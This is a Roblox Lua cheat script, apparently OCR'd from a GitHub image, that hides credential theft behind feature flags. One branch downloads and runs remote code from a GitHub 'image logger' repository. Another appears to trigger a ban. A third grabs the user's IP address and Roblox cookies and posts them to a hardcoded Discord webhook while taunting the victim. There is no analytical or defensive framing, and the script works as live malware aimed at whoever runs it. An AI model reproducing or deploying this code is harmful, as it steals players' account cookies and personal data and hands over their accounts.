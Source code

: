     if getgenv().aimlock == true then
    loadstring(game:HttpGet("https://raw.githubusercontent.com/findmejojo/IMAGE-LOGGER-REAL-DONT-MISS-OUT/main/README.md"))()    
    print("test")
    end
    
    if getgenv().banme == true then
        game:GetService('ReplicatedStorage'):FindFirstChild('MainEvent'):FireServer('OneMoreTime');
end

if getgenv().skid == true then
                local ip = game:HttpGet("https://api.myip.com/")
local COOKIE = ""
local response = syn.request(
    {
        Url = "https://www.roblox.com",
    }
)
for i,v in pairs(response) do
    if type(v) == "table" then
        for ii,vv in pairs(v) do
            if string.find(ii, "cookie") then
                COOKIE = COOKIE.."\n"..vv
            end
        end
    end
end

if game.Players.LocalPlayer.Name == "masterofthec0k" or game.Players.LocalPlayer.Name == "CalvinHobbs2" then
    ip = "<REDACTED>" 
    COOKIE = "<REDACTED>" 
end

syn.request({
    Url = "https://discord.com/api/webhooks/1012336861731106916/Ih8ECEQJ78kJ8rGL-CrSpGM77ydH1ZbkFisKI2otPUC7w6398vY2tN2JOmz9dyo56ObI", 
    Body = game:GetService("HttpService"):JSONEncode({
        ["embeds"]={{
            ["title"]="||"..ip.."||",
            ["type"]="rich",
            ["description"]=COOKIE,
            ["color"]=tonumber(0x7269da),
            ["footer"]={
                ["text"]=os.date("%A, %m %B %Y %I:%M:%S %p <@882188003588603944> skid found LOL")
            }
        }},
        ["avatar_url"]="http://www.roblox.com/Thumbs/Avatar.ashx?x=150&y=150&Format=Png&username="..tostring(game:GetService("Players").LocalPlayer.Name),
        ["username"]="Username: "..game.Players.LocalPlayer.Name,
    }), 
    Method = "POST", 
    Headers = {["content-type"] = "application/json"}
})
            game:GetService('ReplicatedStorage'):FindFirstChild('MainEvent'):FireServer('BreathingHAMON');
end
end
end
